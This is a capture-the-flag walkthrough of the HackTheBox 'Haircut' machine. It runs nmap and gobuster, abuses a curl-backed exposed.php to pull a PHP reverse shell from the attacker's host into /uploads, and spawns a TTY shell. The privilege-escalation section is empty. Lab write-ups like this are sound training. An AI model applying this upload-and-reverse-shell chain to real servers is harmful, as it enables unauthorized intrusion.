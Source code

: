 # Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.24 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/1.png">

The scan results only show two open ports. We'll start with the webserver on port 80.

# Enumeration
As the website itself doesn't reveal anything we'll run gobuster on the target. We will also look for files using the ```-x php,hmtml``` argument.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/2.png">

# Initial Foothold
```exposed.php``` looks interesting. It looks like it uses curl to download a given website. We can abuse this by letting it upload a reverse php shell. We download a [reverse php shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and change the IP and port to our attacking machine which has a listener ready.

We'll upload it to the ```/uploads``` directory found with gobuster. We'll probably have right permission on that folder. ```-o``` will save the file to the location provided.

```http://10.10.14.4:8000/shell.php -o uploads/shell.php```

Browsing to ```http://10.10.14.4:8000/shell.php``` will initiate the reverse shell.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/3.png">

Like usual we'll upgrade the shell. Python was not installed but running ```which python3``` tells us that python3 is.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

# Privilege Escalation



